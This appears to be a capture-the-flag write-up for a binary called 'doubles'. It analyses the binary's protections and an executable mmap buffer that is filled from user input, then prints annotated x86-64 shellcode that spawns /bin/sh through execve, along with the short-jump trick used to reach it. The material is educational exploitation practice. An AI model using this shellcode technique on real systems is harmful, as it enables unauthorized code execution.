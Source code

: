 It is a x64 ELF file:

doubles: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5511e0c31ccc63eda7398cbbfdf1d479f4854cd, not stripped

The binary protections:

Canary                        : No

NX                            : Yes

PIE                           : No

Fortify                       : No

RelRO                         : Partial

The binary only have the NX enabled. So no execution on memory allocations including stack.

However on the static analysis it is possible to determine that a new memory allocation is being done with mmap() on 0x4007c9.

![memory](doubles_1.png)

The allocation is done randomly on memory, with 0x10000 bytes and with execution permission.

![memory](doubles_2.png)

Here part of the binary disassembled:

![binary](doubles_3.png)

The address of the allocated memory by mmap() is saved on $r14 to use during the execution. And then proceeding the execution, there is the first scanf() at 0x40081. This will read an unsigned integer from the user's input.

![scanf](doubles_4.png)

This will determine how many double words you want to write on the allocated memory at the address 0x40085a, another scanf().

![scanf](doubles_5.png)

And then the registers are zeroed, but RAX with the allocated memory+0x70 bytes and it finally jumps there where it contains the last doubles from the input.

![exec](doubles_6.png)

So it will have the shellcode submitted in double (up to 0x6 times) and the $rip will be 0x70 bytes from this.

It is necessary to reach the entire shellcode jumping -0x78 bytes from the execution (there is some thrash 0x909090909090c031) put by the execution on offset 0x70.

There are opcode bytes that does the jump for short distances, for -0x78 bytes are *\xeb\x86*.

All registers were zeroed including $esp and $ebp ($rsp/$rbp) during the last block of execution. My tactic was to use $rip as reference for constructing since it was the only address available.

#   0x7ffff7ff6000:	lea    rdi,[rip+0x19]        # Copying the address from $rip+0x19 where it contains the /bin/sh%00

#   0x7ffff7ff6007:	nop

#   0x7ffff7ff6008:	lea    rbx,[rdi]             # Copying the address from $rdi to $rbx

#   0x7ffff7ff600b:	lea    rsp,[rdi]             # Copying the address from $rdi to $rsp

#   0x7ffff7ff600e:	nop

#   0x7ffff7ff600f:	nop

#   0x7ffff7ff6010:	mov    rax,0x3b               # Setting $rax to 0x3b, execve syscall

#   0x7ffff7ff6017:	nop

#   0x7ffff7ff6018:	syscall                       # syscall

And executing the exploit.

![exploit](doubles_final.png)

Link to the [exploit!](exploit.py)
